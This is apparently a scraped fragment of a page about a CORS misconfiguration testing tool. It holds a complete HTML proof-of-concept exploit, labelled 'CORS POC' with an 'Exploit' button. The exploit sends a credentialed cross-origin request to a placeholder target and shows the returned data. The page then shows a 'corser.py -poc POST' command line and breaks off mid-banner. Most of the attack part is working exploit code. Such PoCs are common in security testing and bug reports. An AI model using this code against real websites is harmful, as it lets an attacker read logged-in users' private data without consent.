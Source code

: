 <!DOCTYPE html>

<html>

<head>

<script>

        function cors() {

                var xhttp = new XMLHttpRequest();

                xhttp.onreadystatechange = function() {

                        if (this.readyState == 4 && this.status == 200){

                                document.getElementById("demo").innerHTML = alert(this.responseText);

                        }

                };

                xhttp.open('GET', 'https://target.com/anything/?param1=value1&pram2=value2', true);

                <!-- xhttp.setRequestHeader('setsomething');-->

                xhttp.withCredentials = true;

                xhttp.send();

        }

</script>

</head>

<body>

<center>

<h2>CORS POC</h2>

<h3>Extract Information</h3>

<div id="demo">

<button type="button" onclick="cors()">Exploit</button>

</div>

</body>

</html>

  

  * python corser.py -poc POST

![](https://gitee.com/fuli009/images/raw/master/public/20210811182659.png)

PS D:\crossdomain-master> python corser.py -poc POST

  

  ____ ___  ____  ____  _____ ____
